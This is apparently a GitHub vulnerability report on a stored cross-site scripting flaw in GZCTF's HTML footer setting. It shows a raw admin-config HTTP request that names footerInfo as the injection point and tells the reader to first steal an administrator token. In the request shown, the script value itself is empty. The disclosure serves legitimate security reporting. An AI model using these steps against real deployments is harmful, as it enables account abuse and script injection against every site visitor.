



# GZCTF XSS

After v0.15.6, the product imports a new feature that allows user to edit footer by using HTML. To reproduce this vulnerability, [deploy this product by using Docker](https://docs.ctf.gzti.me/deployment/docker-k8s).

Firstly, steal an account token which is administrator privilege.

Construct the payload like the following

```
PUT /api/admin/config HTTP/2
Host: **
Cookie: GZCTF_Token=**
Content-Length: 316
Sec-Ch-Ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/plain, */*
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36

{"globalConfig":{"title":"","slogan":"Hack for fun not for profit","footerInfo":""},"accountPolicy":{"allowRegister":true,"activeOnRegister":true,"useGoogleRecaptcha":false,"emailConfirmationRequired":false,"emailDomainList":""},"gamePolicy":{"autoDestroyOnLimitReached":false}}
```

The key `footerinfo` is inject point. Due to lax validation, there is XSS vulnerability here.

# Snapshots

1. Send this payload and receive a 200 response.


2. Anyone who tries to visit home page will receive an alert.


3. Also thert is an error icon in footer.

